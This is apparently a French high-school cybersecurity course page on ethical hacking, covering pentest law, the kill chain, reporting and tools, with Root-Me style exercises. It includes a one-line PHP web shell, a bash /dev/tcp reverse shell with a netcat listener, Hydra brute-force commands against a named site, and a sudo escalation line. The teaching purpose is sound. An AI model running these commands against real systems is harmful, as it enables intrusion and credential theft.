



# :ninja: Hacking éthique — Pentest et exercices

!!! abstract "Fiche module"
    **Source** : Hacoeurethique — Module 2  
    **Public** : Terminale NSI — Orientation métiers de la cybersécurité  
    **Objectif** : Comprendre les phases d'un test d'intrusion, se mettre dans la peau d'un attaquant pour mieux se défendre

---

## :mag: 1. Introduction au Pentest

### 1.1 Qu'est-ce qu'un Pentest ?

Le **Test d'Intrusion** (Pentest) est une discipline de la cybersécurité essentielle pour identifier les vulnérabilités et les faiblesses des systèmes informatiques. Son objectif : **limiter au maximum les risques**.

!!! tip "Rappel des définitions clés"
    - **Vulnérabilité** : constat qu'un attaquant pourrait exploiter pour causer des dommages
    - **Menace** : ce qui peut déclencher un incident, volontairement ou non
    - **Scénario** : forme précise que peut prendre une attaque *(ex : fuite de données via piratage d'un site web)*
    - **Risque** : conséquence d'une attaque possible *(ex : blocage de tous les ordinateurs par un ransomware)*

!!! warning "Pentest ≠ Audit"
    Les Pentests aident les organisations à identifier les **failles de sécurité potentielles** et à prendre les mesures nécessaires. Ce ne sont **pas des audits** mais ils en font partie. L'audit est une étude aboutissant à un panorama complet du SI par rapport à un référentiel.

### 1.2 Objectifs de la formation

- :brain: Comprendre les différentes **phases** d'un Pentest et se mettre dans la peau d'un attaquant
- :wrench: Apprendre à utiliser des outils de **reconnaissance**, de **scan** et d'**exploitation**
- :chart_with_upwards_trend: Connaître les techniques d'**élévation de privilèges** et de **post-exploitation**
- :pencil: Savoir rédiger des **rapports de Pentest** clairs et concis
- :shield: Proposer des **actions de protection** adaptées à chaque niveau



---

## :scales: 2. Aspects juridiques — Avant tout !

!!! danger "Le cadre légal est NON NÉGOCIABLE ⚖️"
    Le Pentest **doit être effectué dans un cadre légal et éthique**, avec l'autorisation appropriée des propriétaires des systèmes à tester. Un **contrat juridique signé par le client** est obligatoire avant de commencer.

### 2.1 Les principaux articles de loi en France

| Article | Infraction | Sanction |
|:-------:|-----------|----------|
| **323-1** | Maintien frauduleux dans un système | 60 000 € d'amende / 2 ans d'emprisonnement |
| **323-3** | Divulgation, altération ou suppression frauduleuse de données | 150 000 € / 5 ans |
| **323-3-1** | Importer, détenir, offrir un équipement ou programme malveillant | Mêmes peines *(sauf « motif légitime » : sécurité informatique)* |
| **323-4** | Association de malfaiteurs (groupes, « teams ») | Peines aggravées |
| **323-5** | Peines complémentaires | Confiscation du matériel |
| **323-6** | Responsabilité pénale des personnes morales | — |
| **323-7** | La **tentative** est punie des mêmes peines | — |

---

## :handshake: 3. Préparation du Pentest — Cadrer avec le client

### 3.1 Réunion de qualification

!!! info "Étape 1 : Qualifier le contexte"
    - Présenter l'entreprise client et la nôtre
    - Définir le **périmètre** du test et son objectif
    - Définir le **planning** et le **budget**
    - Présenter le métier du pentester : actions faites et non faites
    - Définir le **mode d'approche** (boîte noire / grise / blanche)
    - Recueillir les prérequis (URL / IP)

### 3.2 Les trois types de pentest

=== ":black_large_square: Boîte noire (Black Box)"

    L'auditeur ne dispose d'**aucune information** sur la cible. Il simule un attaquant externe qui ne connaît rien de l'infrastructure. C'est le test le plus réaliste mais aussi le plus long.

=== ":white_large_square: Boîte blanche (White Box)"

    L'auditeur dispose de **toutes les informations** : schémas réseau, code source, comptes administrateurs. Permet un test exhaustif et approfondi.

=== ":brown_square: Boîte grise (Grey Box)"

    L'auditeur dispose d'**informations partielles** : comptes utilisateurs de différents droits et périmètres. Permet de tester les parties authentifiées.

### 3.3 Réunion de lancement

!!! warning "Étape 2 : Confirmer avant de lancer"
    Une fois le contrat signé, il faut impérativement :

    - :white_check_mark: Ne pas bloquer l'IP du pentester
    - :white_check_mark: Valider le compte VPN si nécessaire
    - :white_check_mark: Définir qui prévenir en cas de problème et comment (SMS, mail, appel)
    - :white_check_mark: Valider les dates et horaires
    - :white_check_mark: Prévenir les parties prenantes de l'existence des tests

---

## :link: 4. La Cyber Kill Chain — Méthodologie du Pentest

!!! tip "La Cyber Kill Chain de Lockheed Martin"
    Une **kill chain** est un processus modélisant une intrusion informatique étape par étape. Elle sert de base à la méthodologie d'un test d'intrusion.

### Vue d'ensemble des 6 phases

| Phase | Nom | Objectif |
|:-----:|-----|---------|
| :one: | **Reconnaissance** | S'informer sur la cible (passive et active) |
| :two: | **Préparation / Armement** | Lister les cibles, préparer les outils et charges utiles |
| :three: | **Livraison** | Exécuter le plan d'attaque, tenter d'entrer dans le système |
| :four: | **Exploitation** | Exploiter une vulnérabilité pour obtenir un accès initial |
| :five: | **Élévation de privilèges** | Augmenter ses droits, se déplacer latéralement |
| :six: | **Maintien** | Assurer un accès durable et effacer ses traces |



??? example "Exemple concret : attaque par ransomware :pirate_flag:"
    1. Les attaquants collectent des adresses courriel d'employés
    2. Ils envoient un logiciel malveillant dans un courriel piégé
    3. Ils prennent le contrôle de l'ordinateur à distance
    4. Depuis le poste compromis, ils identifient des vulnérabilités dans le SI
    5. Ils exploitent ces vulnérabilités pour compromettre de nouveaux comptes
    6. De fil en aiguille, ils compromettent des utilisateurs avec de plus en plus de privilèges
    7. Une fois un administrateur compromis, ils lancent le **ransomware** sur tout le domaine

---

## :earth_africa: Phase 1 : Reconnaissance

### 5.1 Reconnaissance passive

Dans cette phase, on collecte des informations **sans interagir directement** avec les systèmes de la cible :

- :file_folder: Informations publiques et ouvertes (sites web, réseaux sociaux)
- :globe_with_meridians: Enregistrements DNS, données WHOIS
- :bust_in_silhouette: Données publiques des employés
- :unlock: Données volées (Have I Been Pwned)
- :computer: Dépôts GitHub, données exposées dans les forums

!!! info "OSINT — Open Source Intelligence"
    L'OSINT consiste à exploiter les informations en sources ouvertes pour :

    - Cartographier le réseau cible
    - Découvrir des mots de passe rendus publics
    - Préparer des campagnes de phishing
    - Créer une banque de données sur la cible

??? example "Exemple OSINT concret"
    Un auditeur signe un contrat avec l'entreprise ABC. Avant toute analyse active, il parcourt Internet et découvre :

    - Le **siège social** et l'emplacement des locaux *(utile si test d'intrusion physique prévu)*
    - Des **noms de domaine** associés via Google Dorking
    - Des **adresses mail** d'employés sur les réseaux sociaux
    - Des **noms de sous-traitants** *(cibles potentiellement plus vulnérables)*

### 5.2 Reconnaissance active (Scanning)

Pendant cette phase, on identifie les **services actifs, ports ouverts et vulnérabilités** sur la cible :

- :mag: Énumération de noms de domaine / sous-domaines
- :computer: Machines présentes sur le réseau : adresses IP, ports exposés, OS
- :gear: Services actifs et versions des protocoles
- :lock: Scraping, lecture des certificats TLS, historique DNS

!!! warning "Passive vs Active"
    La reconnaissance **passive** n'active pas les mécanismes de défense. La reconnaissance **active** est **intrusive** : le système peut considérer les requêtes comme hostiles.

### 5.3 Les scanners de vulnérabilités

!!! info "CVE — Common Vulnerabilities and Exposures"
    Quand une faille est découverte et répertoriée, elle reçoit un identifiant **CVE** géré par l'organisation MITRE :
    
    `CVE-YYYY-IDENTIFIANT` associé à un **score de gravité de 1 à 10** (CVSS)

| Outil | Spécialité |
|-------|-----------|
| **Nessus** | Scanner de vulnérabilités complet et commercial |
| **OpenVAS** | Scanner open source |
| **Nmap** | Découverte réseau et scan de ports |
| **Qualys** | Scanner cloud enterprise |
| **Wazuh** | Module de détection de vulnérabilités intégré au SIEM |

Pour rechercher les exploits connus à partir d'une CVE :

- Commande Linux : `searchsploit`
- Site web : [https://www.exploit-db.com/](https://www.exploit-db.com/)

??? example "Exemples de reconnaissance active"
    === "Infrastructure"
        Un scan révèle qu'un **serveur FTP** est présent sur le port 21. En y accédant, on constate qu'aucun identifiant n'est demandé. Un dossier accessible en écriture appartient à l'utilisateur « alice ».

    === "Application web"
        Un scan réseau découvre un serveur web sur les ports 80 et 443. Un scan des sous-répertoires révèle un **blog WordPress** désuet, vulnérable aux **injections SQL**.

    === "Réseau interne"
        L'auditeur analyse les trames du réseau local. Il découvre que **TELNET** est utilisé et récupère le mot de passe d'un utilisateur en clair. Il peut aussi réaliser un **Man-in-the-Middle**.

---

## :hammer_and_wrench: Phase 2 : Préparation / Armement

Une fois bien renseigné sur sa victime, l'attaquant compose un **arsenal adapté** :

- :wrench: Choisir parmi des outils existants (détournés de leur fonction initiale) ou malveillants
- :shopping_cart: Acheter des logiciels malveillants ou concevoir les siens
- :clipboard: Élaborer son plan d'attaque : phishing, brute force, dictionnaires spécifiques, exploitation des vulnérabilités trouvées

C'est l'étape de **militarisation** de la cyber kill chain : création des charges utiles (*payloads*) malveillantes.

---

## :dart: Phase 3 : Livraison

L'attaquant exécute son plan d'attaque et tente d'**entrer dans le système** pour déposer son payload :

- :email: E-mail de phishing (hameçonnage)
- :chains: Compromission d'un fournisseur (supply chain)
- :performing_arts: Ingénierie sociale *(clé USB piégée dans le parking, usurpation d'identité)*
- :key: Brute force ou dictionnaire préparé
- :door: Dépôt de backdoors aux endroits vulnérables découverts

!!! tip "Objectif"
    Mettre un **ancrage** dans le système cible afin de monter d'un niveau et rentrer dans le SI.

---

## :bomb: Phase 4 : Exploitation

Le payload est exécuté et exploite une vulnérabilité pour obtenir un **accès initial** au SI.

### 7.1 Command & Control (C2)

L'attaquant utilise un outil de C2 pour travailler efficacement depuis une interface préparée. Parmi les outils connus : **Cobalt Strike, Empire, Nighthawk, Pwncat, shell99**.

Il est aussi possible de créer des exécutables (PHP ou SH) directement sur la cible pour établir un **reverse shell**.

??? example "Exemple d'exploitation multi-chemins"
    Plusieurs vulnérabilités sont découvertes sur une machine hébergeant une application web et un serveur FTP :

    - Injection SQL sur la page de connexion
    - Connexion anonyme au FTP avec écriture possible
    - Faille Path Traversal permettant d'inclure des fichiers
    - Serveur FTP désuet avec RCE connue

    **Chemin 1** : déposer un backdoor via FTP → l'exécuter via Path Traversal

    **Chemin 2** : injection SQL → récupérer les identifiants → exécuter du code sur la machine

??? example "Technique furtive : MSHTA (sans déclencher l'antivirus)"
    `mshta.exe` est une application native Windows qui exécute les fichiers `.hta` (HTML Applications contenant du JScript ou VBs). Comme elle est dans `C:\Windows\System32` et signée Microsoft, elle est souvent en **liste blanche**.

    Un raccourci déguisé en installation de logiciel peut piéger la victime.

---

## :crown: Phase 5 : Élévation de privilèges

### 8.1 Mouvement latéral

!!! info "Latéralisation (Lateral Movement)"
    L'attaquant se déplace de machine en machine pour compromettre d'autres hôtes du réseau. Il utilise des techniques de **pivot** (ex : tunnel SSH à travers un pare-feu compromis) pour atteindre des systèmes initialement inaccessibles.

### 8.2 Reconnaissance interne

Une fois sur le réseau, l'attaquant relance une phase de reconnaissance :

=== ":ear: Responder"
    Outil d'écoute réseau qui intercepte des login/mot de passe d'utilisateurs utilisant des protocoles vulnérables (NTLM, SMB, NTLMv2 sans signature).

=== ":scroll: LinPEAS"
    **Linux Privilege Escalation Awesome Script** — énumère tout ce qui est possible sur un système Linux : permissions, fichiers SUID, tâches planifiées, services, etc.

    ```bash
    chmod +x /tmp/linpeas.sh && /tmp/linpeas.sh
    ```
    :link: [https://asciinema.org/a/309566](https://asciinema.org/a/309566)

### 8.3 Privilege Escalation

L'élévation de privilèges consiste à obtenir les **droits les plus permissifs** (root/admin) sur une machine :

- Exploitation d'un noyau Linux vulnérable
- Modification de scripts sensibles avec de mauvaises permissions
- Exploitation de services vulnérables exécutés par root
- Tâches planifiées avec fichiers accessibles en écriture

??? example "Exemple"
    L'auditeur découvre que root exécute toutes les minutes un script accessible en écriture. Il remplace son contenu par du code lançant un shell → accès **root** obtenu.

### 8.4 Récupération des secrets

Une fois root, l'auditeur peut :

- Récupérer `/etc/shadow` (mots de passe hachés de tous les utilisateurs)
- Cracker les hash par brute force
- Analyser la mémoire des services pour trouver des mots de passe en clair

### 8.5 Contrôle d'accès web (Broken Access Control)

=== ":left_right_arrow: Cloisonnement horizontal"
    Vérifier qu'un utilisateur A **ne peut pas accéder** au périmètre de l'utilisateur B.
    
    :point_right: *Ex : un médecin ne doit accéder qu'aux dossiers de SES patients.*
    
    Si un simple changement d'ID dans l'URL donne accès à d'autres données → **IDOR** (Insecure Direct Object Reference)

=== ":arrow_up_down: Cloisonnement vertical"
    Vérifier qu'un utilisateur standard **ne peut pas accéder** aux fonctionnalités d'un administrateur.
    
    :point_right: Tester aussi l'accès **sans authentification** !

=== ":wrench: Outils"
    - **PwnFox** : plugin Firefox pour compartimenter les sessions
    - **Autorize** : extension Burp Suite pour automatiser les tests de cloisonnement
    - **Burp Repeater** : rejouer les requêtes avec différents cookies

---

## :lock: Phase 6 : Maintien

Après avoir obtenu un accès, l'attaquant doit assurer un accès **durable** :

- :door: Porte dérobée (backdoor)
- :alarm_clock: Tâche planifiée (scheduled task)
- :globe_with_meridians: Web shell pour les serveurs web
- :computer: Service ou exécutable malveillant au démarrage
- :broom: **Effacer le maximum de traces** laissées

!!! warning "En contexte de pentest"
    Il est **rare** de mettre en place une porte dérobée lors d'un vrai pentest. Oublier de la supprimer en fin de prestation créerait une **vulnérabilité très importante**.

:link: [Mindmaps Orange Cyberdefense](https://orange-cyberdefense.github.io/ocd-mindmaps/)

---

## :page_facing_up: 9. Le rapport de Pentest

### 9.1 Prise de notes pendant le test

!!! danger "Règle d'or :pencil:"
    À **chaque phase** du pentest : tracer, copier, faire des captures d'écran, commenter tout ce que vous faites, dans l'ordre, avec les résultats — qu'ils soient probants ou non. Un résultat de **non-vulnérabilité est aussi important** pour le client.

Méthode recommandée : construire un canevas de rapport avec toutes les phases, puis le remplir au fur et à mesure. Outils : OneNote, TreeNote, EverNote...

### 9.2 Contenu du rapport

Le rapport de Pentest doit contenir :

- :page_with_curl: Description détaillée des vulnérabilités identifiées
- :test_tube: Preuves de concept (PoC)
- :white_check_mark: Recommandations pour corriger les problèmes
- :shield: Mesures d'atténuation

### 9.3 Évaluation des vulnérabilités — 3 axes

Pour chaque vulnérabilité trouvée, le risque est évalué selon :

=== ":rotating_light: Sévérité (CVSS)"

    Le **CVSS** (Common Vulnerability Scoring System) se base sur des métriques mesurables : base, temporelle, environnementale.
    
    | Score CVSS | Niveau |
    |:----------:|--------|
    | 0.0 | Aucun |
    | 0.1 – 3.9 | Faible |
    | 4.0 – 6.9 | Moyen |
    | 7.0 – 8.9 | Élevé |
    | 9.0 – 10.0 | Critique |

=== ":jigsaw: Complexité de correction"

    | Niveau | Description |
    |--------|------------|
    | **Complexe** | Modification importante dans l'organisation ou le code. Très coûteuse. |
    | **Modérée** | Modification limitée. Moyennement coûteuse. |
    | **Facile** | Simple modification (fichier de config, mot de passe). Peu coûteuse. |

=== ":arrow_up: Priorité"

    | Priorité | Niveau | Action |
    |:--------:|--------|--------|
    | **P1** | Urgent | Correction dans les plus brefs délais |
    | **P2** | Standard | Processus habituel de traitement |
    | **P3** | Bas | À la convenance des équipes informatiques |

    :bulb: Toutes les corrections **quick win** (sévérité haute + complexité facile) doivent être faites **en priorité**.

### 9.4 Réunion de restitution

Deux documents à préparer :

1. **Le rapport d'audit** : détails complets de toutes les vulnérabilités
2. **Le support de restitution** : synthèse managériale avec contexte, niveaux de sévérité/complexité/priorité, actions par vulnérabilité, plan d'actions avec charge estimée

---

## :wrench: 10. Les outils d'attaque

### 10.1 Vue d'ensemble

| Outil | Rôle principal |
|-------|---------------|
| **Burp Suite** | Plateforme intégrée pour tests de sécurité web (proxy, intercept, intruder, repeater) |
| **Nmap** | Découverte réseau, scan de ports, détection de services et versions |
| **Wordlists / SecLists** | Listes de mots pour brute force, fuzzing, dictionnaires |
| **FFUF / WFUZZ** | Fuzzing de répertoires, fichiers et paramètres web |
| **Hydra** | Attaques brute force sur SSH, FTP, HTTP, SMTP, etc. |
| **Nikto** | Scanner de vulnérabilités web (fichiers exposés, méthodes HTTP, SSL) |
| **Shells / Reverse shells** | Exécution de commandes à distance sur la cible |

### 10.2 Détail des outils

??? abstract "Burp Suite :spider_web:"
    Plateforme de référence pour le test de sécurité des applications web. Fonctionnalités clés :

    - **Proxy** : intercepte et modifie les requêtes HTTP/HTTPS
    - **HTTP History** : historique de toutes les requêtes
    - **Repeater** : rejoue et modifie des requêtes individuelles
    - **Intruder** : automatise les attaques par dictionnaire (Cluster Bomb, Sniper, etc.)
    - **Match and Replace** : modifie les requêtes/réponses à la volée

??? abstract "Nmap :mag:"
    Outil open source de découverte réseau. Commandes essentielles :

    ```bash
    # Scan basique des ports
    nmap IP_CIBLE

    # Scan d'un port spécifique
    nmap -p80 IP_CIBLE

    # Scan complet avec versions, OS, scripts
    nmap -A IP_CIBLE

    # Scan avec énumération des versions
    nmap -sV IP_CIBLE

    # Scan avec scripts NSE
    nmap IP_CIBLE --script nom_du_script.nse

    # Scan des plugins WordPress
    nmap -p443 -sV --script=http-wordpress-enum www.site.fr
    ```

    Résultats possibles : **ouvert** (réponse reçue), **fermé** (RST reçu), **filtré** (pas de réponse — pare-feu probable).

??? abstract "Wordlists / SecLists :book:"
    Les listes de mots sont essentielles pour automatiser la découverte de vulnérabilités, mots de passe, login, etc.

    ```bash
    # SecLists (installation)
    apt-get install -y seclists
    cd /usr/share/seclists/

    # RockYou (wordlist classique)
    cd /usr/share/wordlists/rockyou.txt
    ```

    **Créer sa propre liste** avec `cewl` (génère une liste à partir du contenu d'un site) :

    ```bash
    # Extraire les mots du site
    sudo cewl -d 2 -m 5 -w maliste.txt https://site.fr

    # Trouver les emails
    sudo cewl -w maliste.txt https://site.fr -n -e
    ```

    Autres générateurs : **cupp** (profilage de cible), **crunch**, **psudohash**, **GeoWordlists**.

??? abstract "FFUF :zap:"
    Fuzzer web ultra-rapide utilisant le mot-clé `FUZZ` remplacé par chaque mot de la liste :

    ```bash
    # Découverte de répertoires et fichiers
    ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt \
         -u https://site.fr/FUZZ -fc 302,301,404,403

    # Brute force POST avec deux variables
    ffuf -w liste1.txt:FUZZ1 -w liste2.txt:FUZZ2 \
         -X POST -d 'pseudo=FUZZ1&pwd=FUZZ2' \
         -request entete.txt -request-proto https -fs 77
    ```

??? abstract "Hydra :key:"
    Outil open source de brute force multi-protocoles :

    ```bash
    # Brute force SSH
    hydra -l admin -P /usr/share/wordlists/rockyou.txt IP_CIBLE ssh

    # Brute force HTTP
    hydra -l admin -P /usr/share/wordlists/rockyou.txt IP_CIBLE http-get
    ```

    Supporte : HTTP, HTTPS, FTP, SSH, Telnet, RDP, SMB, MySQL, PostgreSQL, etc.

??? abstract "Nikto :beetle:"
    Scanner open source de vulnérabilités web :

    ```bash
    # Scan basique
    nikto -h IP_CIBLE

    # Avec authentification
    nikto -h IP_CIBLE -id login:mdp
    ```

    Détecte : fichiers exposés, méthodes HTTP non sécurisées, versions de serveurs, protocoles SSL vulnérables, certificats mal configurés.

??? abstract "Shells et Reverse Shells :shell:"
    **Shell** (cmd.php) — exécution de commandes depuis le site web :
    ```php
    <?php system($_GET['cmd']); ?>
    ```
    Usage : `http://site/cmd.php?cmd=id`

    **Reverse shell** — la cible se connecte à l'attaquant :
    ```bash
    # Sur la cible (fichier cmd.sh)
    #!/bin/bash
    sh -i >& /dev/tcp/IP_KALI/1234 0>&1

    # Sur Kali (écoute)
    nc -lvnp 1234
    ```
    Stabilisation : `script /dev/null -qc /bin/bash` ou `pwncat-cs :port`

---

## :trophy: 11. Exercices pratiques

### 11.1 Challenges Root-Me

!!! example "Plateforme : [https://root-me.org](https://root-me.org)"
    | Challenge | Concept appris |
    |-----------|---------------|
    | HTML - Code source | Commentaires non désirés dans le code |
    | Mot de passe faible | Utilisation de Hydra, Nikto, Burp |
    | PHP - Injection de commande | Commandes au-delà de ce qui est attendu |
    | HTML - Boutons désactivés | Attaque côté client |
    | XSS - Stockée 1 | Redirection de cookie admin |
    | Hash - DCC | Utilisation de Hashcat |
    | SQL injection - Authentification | Injection SQL basique |
    | Directory traversal | Faille de traversée de répertoire |

### 11.2 Mission 1 — Pentest du site Hacoeurethique

??? question "Énoncé :dart:"
    Vous êtes mandaté par Hacoeurethique pour tester son site web. Vous devez découvrir une entrée privée gérée par admin et trouver **1 flag**.

    **Cible** : `https://hacoeurethique.fr`

??? success "Méthodologie :wrench:"
    ```bash
    # 1. Énumérer les répertoires
    ffuf -u https://hacoeurethique.fr/FUZZ \
         -w /usr/share/wordlists/wfuzz/general/common.txt

    # 2. Trouver le mot de passe admin
    hydra -l admin -P /usr/share/wordlists/rockyou.txt \
          www.hacoeurethique.fr http-get "/rep_trouvé"

    # 3. Utiliser F12 dans Firefox pour trouver le flag
    ```

### 11.3 Mission 2 — Intrusion réseau interne

??? question "Énoncé :dart:"
    Vous êtes sur le réseau interne d'une entreprise. Une VM sous `10.0.250.20` est gérée par admin. Trouvez **2 flags**.

??? success "Méthodologie :wrench:"
    ```bash
    # 1. Scan des ports
    nmap 10.0.250.20

    # 2. Brute force HTTP
    hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz 10.0.250.20 http-get

    # 3. Scan avec credentials
    nikto -h <site_trouvé> -id admin:<mdp_trouvé>

    # 4. Exploiter RFI avec cmd.php
    # 5. Lancer un serveur HTTP local
    python3 -m http.server 8080

    # 6. Connexion SSH
    ssh <login>@10.0.250.20

    # 7. Élévation de privilèges
    sudo -l
    sudo <commande_trouvée> . -exec /bin/bash \;
    ```

---

## :books: 12. Les 5 leçons de la sécurité réseau

!!! success "À retenir :bulb:"
    1. **La sécurité rencontre les affaires** : les politiques de sécurité protègent les données partout, mais la sécurité se fait toujours au détriment de la commodité
    2. **Communication sécurisée** : un VPN accompagne vos informations chiffrées à travers Internet. Le DRM protège les données à destination
    3. **Jouer dans le trafic** : la configuration correcte des routeurs, pare-feux et dispositifs de régulation peut déjouer les plans des attaquants
    4. **Menaces constantes** : les pirates scannent les réseaux jour et nuit. Technologies de renforcement, stéganographie et stockage sécurisé minimisent l'exposition
    5. **Le pire des cas** : outils de surveillance et vérification d'intégrité aident à repérer les catastrophes tôt. Une bonne **stratégie de rétablissement** est indispensable



---

## :link: 13. Ressources

=== ":crossed_swords: Outils et références d'attaque"

    | Ressource | Lien |
    |-----------|------|
    | PayloadsAllTheThings | [github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master) |
    | Cheatsheet Haax | [cheatsheet.haax.fr](https://cheatsheet.haax.fr/) |
    | GTFOBins | [gtfobins.github.io](https://gtfobins.github.io/) |
    | Exploit-DB | [exploit-db.com](https://www.exploit-db.com/) |
    | Pentest Tools (GitHub) | [github.com/S3cur3Th1sSh1t/Pentest-Tools](https://github.com/S3cur3Th1sSh1t/Pentest-Tools) |
    | OSCP Resources | [github.com/xsudoxx/OSCP](https://github.com/xsudoxx/OSCP) |

=== "Plateformes d'entraînement"

    | Plateforme | Lien |
    |-----------|------|
    | :star: **Root-Me** | [root-me.org](https://www.root-me.org/) |
    | Hack The Box | [hackthebox.com](https://www.hackthebox.com/) |
    | TryHackMe | [tryhackme.com](https://tryhackme.com/) |
    | The Black Side | [theblackside.fr](https://theblackside.fr/) |
    | CryptoHack | [cryptohack.org](https://cryptohack.org) |
    | PortSwigger Academy | [portswigger.net/web-security](https://portswigger.net/web-security) |
    | LetsDefend | [letsdefend.io](https://www.letsdefend.io) |
    | Ozint | [ozint.eu](https://ozint.eu) |
    | CyberDefenders | [cyberdefenders.org](https://cyberdefenders.org) |
    | Pwn College | [pwn.college](https://pwn.college) |

=== ":movie_camera: Vidéos de sensibilisation"

    | Source | Description |
    |--------|------------|
    | ENISA | [Clips de sensibilisation (FR)](https://www.enisa.europa.eu/media/multimedia/material/awareness-raising-video-clips-fr) |
    | Clips Cyber SPIE | [Excellentes vidéos courtes sur YouTube](https://www.youtube.com/playlist?list=PL04nmlW2kisFnfRpv-stShyR_ZtMHB4GG) |
    | Gouvernement FR | Vidéos « Bureau des Légendes » |

---

*Résumé de Hacoeurethique — Hacking éthique, Pentest et Exercices*